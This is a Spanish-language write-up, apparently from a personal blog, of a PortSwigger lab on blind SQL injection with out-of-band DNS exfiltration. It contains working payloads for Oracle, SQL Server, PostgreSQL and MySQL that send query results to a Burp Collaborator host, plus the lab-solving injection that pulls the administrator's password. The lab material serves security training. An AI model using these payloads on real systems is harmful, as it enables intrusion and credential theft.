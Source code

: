 ```yaml
---
title: Blind SQL injection with out-of-band data exfiltration - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


## DNS lookup with data exfiltration

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo que contenga los resultados de una consulta inyectada. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para recuperar detalles de cualquier interacción de DNS, incluidos los datos exfiltrados.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|
En este ejercicio debemos de obtener las credenciales del usuario administrator, por lo que nos ayudaremos de `burp collaborator`, para ello usamos la siguiente `query`.

```c
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -
```

La consulta debemos de ponerla dentro de : `' || (<query>)`. Luego hacemos url encode y podemos enviarla para obtener las credenciales del usuario.

![20240805125502.png](20240805125502.png)

